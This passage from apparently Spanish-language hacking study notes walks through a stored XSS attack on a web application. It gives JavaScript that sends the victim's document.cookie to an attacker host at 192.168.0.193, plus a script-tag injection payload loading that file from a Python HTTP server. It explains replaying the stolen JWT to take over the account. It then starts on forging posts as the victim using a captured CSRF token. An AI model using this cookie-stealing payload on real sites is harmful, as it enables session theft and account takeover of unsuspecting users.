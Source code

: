 -----

Una vez explicado y hecho todo lo anterior, **procederemos con el código Javascript** para manipular la Cookie de sesión. (Quitar los comentarios al utilizar el script, son meramente explicativos)

```javascript
// Declaramos una variable Request que nos va a permitir controlar peticiones por GET, POST, etc.
var request = new XMLHttpRequest();
// Indicamos el tipo de petición que vamos a tramitar, en nuestro caso GET a una dirección URL que querramos, al final se agrega ?cookie= para que sea mas descriptiva la info.
request.open('GET', 'http://192.168.0.193/?cookie=' + document.cookie); // document.cookie es la sintaxis para que el valor de la cookie sea llamada.
// Enviamos la petición con send
request.send();
```

----

Una vez creado el archivo **cookie.js** con el contenido del código anterior debemos colocar únicamente en el panel de entrada vulnerable el siguiente código.

- ``<script src="http://192.168.0.193/cookie.js"></script>`` ---> Acá se reemplaza la IP por la propia, y el nombre del archivo JS por el que le hayamos definido.

Este código lo que hace es que cuando la victima lo ejecute, en este caso abriendo el posteo, **ejecutará el archivo "cookie.js"** que está alojado en el servidor que abriremos con ``python3 -m http.server 80`` y cargará todas las instrucciones definidas en el script creado anteriormente.

![[XSS 12.png]]

Todo lo marcado en rojo es el **JWT** de la victima, ahora si nosotros lo copiamos y lo **reemplazamos** en donde se ubica nuestra Cookie propia, **podremos obtener acceso a la cuenta que le hemos robado la Cookie** de sesión presionando F5.

### Creando posteo como si fuésemos nuestra victima

Imaginemos que queremos hacer que cuando nuestra victima abra el posteo, automáticamente EL MISMO **cree un posteo que diga o haga algo que nosotros queramos**, por ejemplo "Mi jefe es una mierda"

Para comenzar a hacer esto debemos **observar que se está tramitando por detrás a la hora de crear un posteo** para poder replicarlo en nuestro futuro código, esto lo haremos con el uso de **BURPSUITE**

![[XSS 13.png]]

Si nosotros hacemos un **CTRL+U** podremos ver el **código fuente de la web** normalmente HTML, ahí podremos ver el valor del **csrf_token** también.

-------

Procederemos a crear el archivo Javascript que envíe la petición por POST.

**Solicitudes síncronas vs asíncronas**:
- **Síncronas (FALSE)**: El navegador espera a que la solicitud sea completada antes de ejecutar cualquier otra parte del código. Esto puede hacer que la interfaz de usuario se bloquee mientras la solicitud está en proceso, y no es recomendable para operaciones que puedan tomar mucho tiempo o que puedan bloquear la interfaz de usuario.
- **Asíncronas (TRUE)**: La ejecución del código continúa inmediatamente después de la solicitud, y se maneja mediante callbacks o promesas para manejar la respuesta del servidor.
